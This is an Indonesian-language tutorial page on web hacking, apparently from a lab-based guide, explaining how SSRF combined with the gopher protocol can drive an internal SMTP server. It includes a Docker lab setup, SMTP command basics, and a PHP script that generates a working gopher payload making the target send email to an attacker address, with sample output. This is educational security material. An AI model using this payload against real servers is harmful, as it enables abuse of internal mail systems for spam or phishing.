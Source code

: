 # SSRF And SMTP

SSRF bisa dimanfaatkan untuk berinteraksi dengan SMTP, sehingga attacker bisa mengirim email melalui server SMTP dari website yang _vulnerable_ SSRF.

![Skema dasar serangan SSRF And SMTP](../../.gitbook/assets/ssrf_smtp-1.png)

### Lab Setup

Email Server menggunakan `sendmail` dan di_deploy_ menggunakan `docker`.

```bash
git clone https://github.com/rhamaa/Web-Hacking-Lab.git
cd Web-Hacking-Lab/SSRF_SMTP_LAB
docker build -t ssrf_smtp_lab .
docker run -d --rm -p 8022:80 ssrf_smtp_lab
```

![Halaman index lab](../../.gitbook/assets/lab.JPG)

\*\* Port HTTP sengaja diforward ke 8022 karena memang di Host Server port 80 nya sudah ada service yang berjalan.

{% hint style="info" %}
Lab tersebut hanya menggunakan setingan _default_ sendmail, mungkin tidak akan bisa mengirim \(_Outgoing Mail_\) pesan ke provider-provider email tertentu seperti Gmail.
{% endhint %}

### SMTP \(Simple Mail Transfer Protocol\) 101

SMTP berfungsi untuk mengirim email dari SMTP server pengirim ke SMTP server penerima email, secara default port SMTP adalah 25, selain itu SMTP mempunyai port lain yaitu 587 MSA \(_message submission agent_\), bedanya dengan port 25 adalah port 587 membutuhkan Autentikasi SMTP. Port 587 ini lebih sering digunakan karena tergolong lebih aman dibandingkan port 25.

#### Beberapa Command SMTP

| **Command** | **Deskripsi** |
| :--- | :--- |
| `HELO <FQDN>` | Say Hello ke SMTP server agar saling mengenal |
| `MAIL FROM <Your_Email>` | Set Email pengirim |
| `RCPT TO <Receiver_Email>` | Set Email tujuan |
| `DATA` | Mulai menulis isi email, lalu akhiri dengan "." untuk mengirim |
| `VRFY <username>` | Melakukan verifikasi mailbox user di local host |
| `EXPN <username>` | \( sama seperti VRFY \) |
| `QUIT` | Keluar dari SMTP |

![Contoh penggunaan command SMTP](../../.gitbook/assets/smtp_command_telnet.JPG)

{% hint style="info" %}
**Trivia :** _Command_ RCPT TO, VRFY, dan EXPN dapat digunakan untuk melakukan _Username Enumeration_ yang sangat berguna saat melakukan _pentesting_.
{% endhint %}

### SMTP Hates HTTP

Seperti yang dikatakan **Orange Tsai** dalam presentasinya bahwa "_SMTP Hates HTTP_" karena memang HTTP tidak bisa melakukan _smuggling_ ke SMTP.

Pada `sendmail` terdapat changelog yang mengatakan akan menolak apabila paketnya di awali dengan _GET_, _POST_, _CONNECT,_ atau _USER_

```text
8.14.0/8.14.0   2007/01/31  
  ....
  Try to deal with open HTTP proxies that are used to send spam
    by recognizing some commands from them. If the first command
    from the client is GET, POST, CONNECT, or USER, then the
    connection is terminated immediately.
```

Sangat mustahil untuk melakukan _smuggling_ HTTP ke SMTP, karena memang pasti akan ditolak, tetapi protokol Gopher dan HTTPS bisa melakukan _smuggling_ ke protokol SMTP sehingga bisa menjadi solusi terhadap permasalahan tersebut.

{% hint style="info" %}
**HTTPS** tidak mendukung _multiline_ _request_ seperti gopher, oleh karena itu dibutuhkan celah _CRLF Injection_ apabila ingin melakukan _querying_ SMTP melalui HTTPS
{% endhint %}

### Querying SMTP Melalui Gopher

Syntax Gopher untuk Querying SMTP seperti dibawah ini.

`gopher://<Intranet_IP>:25/_<Command_SMTP>`

_Script_ di bawah ini bisa digunakan untuk meng-automasi pembuatan _payload_.

```php
<?php
        $commands = array(
                'HELO target.0xff.web.id',
                'MAIL FROM: <root@target.0xff.web.id>',
                'RCPT TO: <attacker@email.com>',
                'DATA',
                'Subject: SSRF HERE',
                'SSRF AND SMTP',
                '.'
        );

        $payload = implode('%0A', $commands); // memisahkan tiap command dengan newline

        echo 'gopher://127.0.0.1:25/_' . $payload;
?>
```

{% hint style="info" %}
Tanda \_ \(_**underscore**_\) setelah &lt;port&gt;:/ untuk mewakili _gophertype_, sehingga harus disertakan, karena apabila tidak disertakan karakter payload akan terpotong 1 karakter, misal payloadnya adalah _HelloWorld_, apabila tanda \_ tidak disertakan payloadnya akan menjadi _ElloWorld_.
{% endhint %}

#### Percobaan Serangan

```bash
$ php payload.php
gopher://127.0.0.1:25/_HELO target.0xff.web.id%0AMAIL FROM: <root@target.0xff.web.id>%0ARCPT TO: <attacker@email.com>%0ADATA%0ASubject: SSRF HERE%0ASSRF AND SMTP%0A.
```

Masukan _payload_ yang sudah di-_generate_ ke web target.

![](../../.gitbook/assets/screenshot-from-2019-03-21-01-25-48.png)

![Pesan setelah payload disubmit](../../.gitbook/assets/screenshot-from-2019-03-21-01-25-03.png)

Terdapat email dari server target masuk.

![Email Masuk](../../.gitbook/assets/inbox.jpg)

### Referensi

[http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/](http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/)

[https://hackerone.com/reports/115748](https://hackerone.com/reports/115748)

[https://tools.ietf.org/html/rfc4266](https://tools.ietf.org/html/rfc4266)

[https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs](https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs)


